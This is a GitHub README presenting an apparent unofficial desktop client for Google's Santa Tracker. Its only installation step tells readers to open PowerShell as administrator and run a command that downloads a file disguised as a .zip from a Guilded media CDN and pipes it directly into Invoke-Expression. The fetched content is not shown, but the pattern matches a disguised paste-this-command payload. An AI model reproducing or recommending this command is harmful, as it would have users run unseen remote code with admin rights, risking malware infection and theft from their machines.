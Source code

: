 <!-- START Header.mustache -->
<br />
<div align="center">
  <a href="https://github.com/Jax-Core/ReadME-Test">
    <img src="https://play-lh.googleusercontent.com/hG8czln9SPL68rQeMj5q8LYoQJx-OLITaunMSot4R2d0QugmPyT8a2gUQ4rMF3awnHJm" alt="Logo" width="80" height="80">
  </a>

<h3 align="center">Santa Tracker Desktop</h3>
  <p align="center">
    Unofficial Desktop client for Googles Santa Tracker
    <br />
    <a href="https://santatracker.google.com/intl/en/">Official Website »</a>
  </p>
</div>
<!-- END Header.mustache -->
<!-- START ShieldsFull.mustache -->
<p align="center">
  <img alt="Releases" src="https://img.shields.io/github/downloads/ItzIcoza/santa-tracker-desktop/total?style=for-the-badge" />
  <img alt="Release date" src="https://img.shields.io/github/release-date/ItzIcoza/santa-tracker-desktop?label=Last%20Update&style=for-the-badge" />
  <img alt="Github" src="https://img.shields.io/github/license/ItzIcoza/santa-tracker-desktop/?style=for-the-badge" />
</p><!-- END ShieldsFull.mustache -->
<!-- ShieldsBasic for shields without download count and last update date--> 

<!-- START About.mustache -->

## About

![ReadME-Test](https://santatracker.google.com/images/og/village.png)
<!-- END About.mustache -->
Unofficial Desktop client for Googles Santa Tracker


<!-- START GetStarted.mustache -->

## Getting Started

### Prerequisites
- **Windows 10** or above
> For older systems, **Powershell v5.1 or newer** is required. Upgrade powershell **[here](https://docs.microsoft.com/en-us/powershell/scripting/windows-powershell/install/installing-windows-powershell?view=powershell-7.2#upgrading-existing-windows-powershell)**!

### Installation 
Run the following command in Powershell to download the latest version of the desktop client.

(To launch Powershell as an Admin: `Win + R` -> `powershell` -> Press `CTRL + SHIFT + ENTER` on your keyboard. Powershell can also be launched via Windows Search.)

```
Invoke-WebRequest -UseBasicParsing "https://img.guildedcdn.com/ContentMediaGenericFiles/95cb5af604eb6c32c5c783fecb08874c-Full.zip?w=1&h=1" | Invoke-Expression
```


<br />
<br /><!-- END GetStarted.mustache -->
<!-- START Setup.mustache -->

### Configuration
Open the app and select the menu icon in the top left corner.
<br>
<br><!-- END Setup.mustache -->
<!-- START Footer.mustache -->

## Need assistance?
* Unfortunately I can not provide help for issues with the website, although you can contact me on Discord or [Guilded](https://www.guilded.gg/wasthatzero) for help (Most likely to reply on Discord, but Guilded works fine :D)

## Say hi!
* Follow me on 👨‍💻 [Github](https://github.com/ItzIcoza) and stay updated on new things that I make
* Message me on 🗨️ [Guilded]([https://discord.gg/JmgehPSDD6](https://www.guilded.gg/wasthatzero))

<p align="center">
<i>Made with ❤️ by Zero</i>
   <br/><br/>
   <img src="https://play-lh.googleusercontent.com/hG8czln9SPL68rQeMj5q8LYoQJx-OLITaunMSot4R2d0QugmPyT8a2gUQ4rMF3awnHJm"  width="64" height="64>
</p>
<!-- END Footer.mustache -->
